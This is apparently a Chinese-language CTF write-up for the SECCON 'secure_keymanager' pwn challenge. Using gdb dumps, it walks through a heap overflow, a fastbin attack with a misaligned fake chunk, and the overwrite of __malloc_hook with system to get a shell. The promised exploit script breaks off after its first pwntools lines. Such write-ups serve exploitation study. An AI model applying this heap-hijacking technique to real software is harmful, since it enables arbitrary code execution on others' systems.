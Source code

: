 ```plain
0x1fad050:	0x4242424242424242	0x4242424242424242
0x1fad060:	0x4242424242424242	0x4242424242424242  <-- chunk 2
0x1fad070:	0x4242424242424242	0x0000000000000000
0x1fad080:	0x0000000000000000	0x0000000000000000
0x1fad090:	0x0000000000000000	0x0000000000000000
0x1fad0a0:	0x0000000000000000	0x0000000000000071  <-- fake chunk
0x1fad0b0:	0x0000000000000000	0x0000000000000000
0x1fad0c0:	0x0000000000000000	0x0000000000000000
0x1fad0d0:	0x0000000000000000	0x0000000000020f31
```
通过上述操作，我们实现了更大范围的堆溢出，而不是再局限于覆盖相邻chunk的size字段，可以用它覆盖相邻chunk上的FD/BK指针，来实现最后的攻击——利用fastbin attack劫持malloc_hook.
#### Fastbin attack
fastbin所包含chunk的大小为0x20 Bytes, 0x30 Bytes, 0x40 Bytes, … , 0x80 Bytes。当分配一块较小的内存(mem<=0x80 Bytes)时，首先检查对应大小的fastbin中是否包含未被使用的chunk，如果存在则直接将其从fastbin中移除并返回；否则通过其他方式（剪切top chunk）得到一块符合大小要求的chunk并返回。
fastbin为单链表，fastbin为了快速分配回收这些较小size的chunk，并没对bk进行操作，即仅仅通过fd组成了单链表，而且其遵循后进先出(LIFO)的原则。
本题存在着堆溢出漏洞，分配一个fastbin然后释放掉，伪造chunk结构，再利用堆溢出修改被释放的fastbin的fd指针为伪造chunk的地址，利用malloc将伪造的chunk分配出来，可以实现任意地址写。
```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
...
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
  {
    errstr = "malloc(): memory corruption (fast)";
```
malloc断开fastbin链表取出chunk时存在一个检查，要求被分配的chunk的size属于这个fastbin，否则会出现memory corruption(fast) 的错误，因为检查中没有进行对齐处理。所以可以利用错位来构造一个伪size结构以实现fasbin attack
```plain
gdb-peda$ x/10x 0x7f5b10f16ae0
0x7f5b10f16ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7f5b10f16af0 <_IO_wide_data_0+304>:	0x00007f5b10f15260	0x0000000000000000
0x7f5b10f16b00 <__memalign_hook>:	0x00007f5b10bd7e20	0x00007f5b10bd7a00
0x7f5b10f16b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7f5b10f16b20 <main_arena>:	0x0000000000000000	0x0000000000000000
```
_IO_wide_data_0+304地址的第0xd个字节为0x7f，我们就可以利用错位来构造伪chunk，将fastbin的fd指向malloc_hook- 0x30 + 0xd的位置
```plain
gdb-peda$ telescope 0x7f5b10f16aed
0000| 0x7f5b10f16aed --> 0x5b10f15260000000 <-- fake fastbin
0008| 0x7f5b10f16af5 --> 0x7f               <-- fake fastbin size
0016| 0x7f5b10f16afd --> 0x5b10bd7e20000000 
0024| 0x7f5b10f16b05 --> 0x5b10bd7a0000007f 
0032| 0x7f5b10f16b0d --> 0x7f 
0040| 0x7f5b10f16b15 --> 0x0 
```
完成malloc_hook的劫持后，我们将其改为system函数的地址。这样，程序调用malloc时，相当于调用了system
```c
.text:0000000000400ADD                 call    getint
.text:0000000000400AE2                 mov     [rbp+var_C], eax
.text:0000000000400AE5                 mov     eax, [rbp+var_C]
.text:0000000000400AE8                 cdqe
.text:0000000000400AEA                 add     rax, 20h
.text:0000000000400AEE                 mov     rdi, rax        ; size
.text:0000000000400AF1                 call    _malloc
```
由于malloc函数的参数由getint()返回，为一个4字节的数，这样我们所传入的"/bin/sh"的地址只能在4字节以内。回到程序刚开始的地方，我们输入了两个全局变量account和master，他们的地址为0x6020C0和0x602130，满足4字节以内的要求，那么就可以将"/bin/sh"放在那里，愉快的getshell了。附上完整的exp:
```python
from pwn import *

c = process('./secure_keymanager')
#c = remote('secure_keymanager.pwn.seccon.jp', 47225)
stdout_so = 0x3c5620
```